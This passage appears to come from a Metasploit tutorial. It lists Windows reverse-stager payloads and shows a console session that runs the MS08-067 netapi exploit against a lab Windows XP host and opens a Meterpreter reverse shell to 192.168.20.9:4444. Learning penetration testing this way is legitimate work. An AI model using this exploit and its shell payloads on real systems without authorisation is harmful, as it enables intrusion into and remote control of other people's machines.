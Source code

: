 ```
                                                                  TCP Stager
   windows/dllinject/reverse_http                       normal  Reflective DLL Injection, Reverse
                                                                  HTTP Stager
--snip--
   windows/vncinject/reverse_ipv6_http                  normal  VNC Server (Reflective Injection),
                                                                  Reverse HTTP Stager (IPv6)
   windows/vncinject/reverse_ipv6_tcp                   normal  VNC Server (Reflective Injection),
                                                                  Reverse TCP Stager (IPv6)
--snip--
   windows/vncinject/reverse_tcp                        normal  VNC Server (Reflective Injection),
                                                                  Reverse TCP Stager
   windows/vncinject/reverse_tcp_allports               normal  VNC Server (Reflective Injection),
                                                                  Reverse All-Port TCP Stager
   windows/vncinject/reverse_tcp_dns                    normal  VNC Server (Reflective Injection),
                                                                  Reverse TCP Stager (DNS)
```

!!! Note

    If payload is not set, metasploit will automatically choose the default payload and associated settings and run it.


### Running The Exploit

use the `exploit` command to run the exploit

```
msf  exploit(ms08_067_netapi) > exploit

[*] Started reverse handler on 192.168.20.9:4444
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 1 opened (192.168.20.9:4444 -> 192.168.20.10:1334) at
2015-08-31 07:37:05 -0400

meterpreter >
```

- to exit use the `exit` command

```
meterpreter > exit
[*] Shutting down Meterpreter...

[*] Meterpreter session 1 closed.  Reason: User exit
msf  exploit(ms08_067_netapi) >
```

### Type of Shells
